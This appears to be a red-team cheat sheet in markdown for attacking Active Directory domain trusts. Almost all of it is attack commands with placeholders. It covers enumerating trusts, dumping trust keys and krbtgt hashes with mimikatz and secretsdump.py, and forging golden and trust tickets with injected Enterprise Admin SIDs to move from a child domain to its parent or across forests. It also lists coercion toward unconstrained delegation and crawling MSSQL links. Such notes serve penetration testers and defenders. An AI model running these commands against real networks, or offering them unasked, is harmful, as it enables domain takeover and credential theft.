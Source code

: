 # Trusts

## Enumeration
- `nltest.exe /trusted_domains`
- `([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()`
- `Get-DomainTrust -Domain <domain>`
- `Get-DomainTrustMapping`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> trusts`
- `sharphound.exe -c trusts -d <domain>`
  - `MATCH p=(:Domain)-[:TrustedBy]->(:Domain) RETURN p`
- Get Domains SID
  - `Get-DomainSID -Domain <domain> Get-DomainSID -Domain <target_domain>` 
  - `lookupsid.py -domain-sids <domain>/<user>:<password>'@<dc> 0 lookupsid.py -domain-sids <domain>/<user>:<password>'@<target_dc> 0`

## Child->Parent
- Trust Key >>> PassTheTicket
  - `mimikatz lsadump::trust /patch`
    - `mimikatz kerberos::golden /user:Administrator /domain:<domain> /sid:<domain_sid> /aes256:<trust_key_aes256> /sids:<target_domain_sid>-519 /service:krbtgt /target:<target_domain> /ptt`
  - `secretsdump.py -just-dc-user '<parent_domain>$'   <domain>/<user>:<password>@<dc_ip>`
    - `ticketer.py -nthash <trust_key> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 -spn krbtgt/<parent_domain> trustfakeuser`

- Golden Ticket >>> PassTheTicket
  - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
    - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt`
  - `raiseChild.py <child_domain>/<user>:<password>`
  - `ticketer.py -nthash <child_krbtgt_hash> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 goldenuser`

- Unconstrained delegation
  - coerce parent_dc on child_dc domain >>> unconstrained delegation

## Parent->Child
- same as Child to parent

## External Trust 
- DomainA <--> DomainB trust (B trust A, A trust B)
  - from A to B FOREST_TRANSITIVE
    - password reuse >>> lat move (creds/pth/...)
    - Foreign group and users >>> ACL
      - Users with foreign Domain Group Membership
        - `MATCH p=(n:User {domain:"<DOMAIN.FQDN>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain RETURN p`
      - Group with foreign Domain Group Membership
        - `MATCH p=(n:Group {domain:"<DOMAIN.FQDN>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain RETURN p`
    - SID History on B >>> PassTheTicket
      - Golden ticket
        - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
          - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID>-<GROUP_SID_SUP_1000> /ptt`
        - `ticketer.py -nthash <krbtgt> -domain-sid <domain_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> fakeuser`
      - Trust ticket
        - `secretsdump.py -just-dc-user '<domainB>' <domainA>/<user>:'<password>'@<dc_a>`
          - `ticketer.py -nthash <trust_hash> -domain-sid <sid_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> -spn krbtgt/<domain_a> fakeuser`
    - ADCS abuse >>> ADCS
  - from A to B is FOREST_TRANSITIVE|TREAT_AS_EXTERNAL
      - Unconstrained delegation
        - coerce dc_b on dc_a >>> unconstrained delegation
        
- DomainA <-- DomainB trust (B trust A / A access B)
  - Same as double trust, but no unconstrained delegation as B can't connect to A

- DomainA --> DomainB trust (A trust B / B access A)
  - password reuse >>> lat move (creds/pth/...)

## Mssql links >>> MSSQL
- MSSQL trusted links doesn't care of trust link
  - `Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
    - trustlink
      - sp_linkedservers
        - use_link